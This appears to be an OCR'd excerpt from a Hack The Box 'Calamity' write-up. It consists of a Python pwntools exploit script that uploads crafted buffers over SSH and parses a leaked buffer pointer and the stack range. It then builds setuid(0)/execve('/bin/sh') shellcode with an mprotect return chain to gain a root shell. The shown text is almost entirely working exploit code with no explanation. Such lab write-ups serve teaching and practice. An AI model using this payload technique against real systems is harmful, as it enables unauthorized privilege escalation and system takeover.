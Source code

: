     ## Stage 2 - Access Debug
    log.info(f'Writing Stage 2 exploit to {fn}')
    sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
    goodluck.sendline("4")
    goodluck.recv(4096)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("3")
    #resp = goodluck.recv(4096).decode()
    resp = goodluck.recvuntil(b"Filename:  ").decode()
    
    buff_addr = int(re.search(r'vulnerable pointer is at ([0-9a-f]+)', resp).group(1), 16)
    stack_start, stack_end = (int(x, 16) for x in re.search(r'\n([0-9a-f]{8})-([0-9a-f]{8}) rw-p 00000000 00:00 0          \[stack\]\n', resp).groups())
    log.success(f'Address of next buffer: 0x{buff_addr}')
    log.success(f'Stack address space: 0x{stack_start} - 0x{stack_end}')
    
    ## Stage 3 - Shell
    mprotect = 0xb7efcd50
    size = stack_end - stack_start
    shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))
    
    payload =  shellcode
    payload += b"A" * (76 - len(shellcode))
    payload += p32(mprotect)
    payload += p32(buff_addr)
    payload += p32(stack_start)
    payload += p32(size)
    payload += p32(7)
    log.info(f'Writing Stage 3 exploit to {fn}')
    sshConn.upload_data(payload, fn)
    
    goodluck.sendline(fn)
    log.info(f'Cleaning up {fn}')
    sshConn.unlink(fn)
    goodluck.interactive(prompt='')
    

[](/2020/08/27/htb-calamity.html)

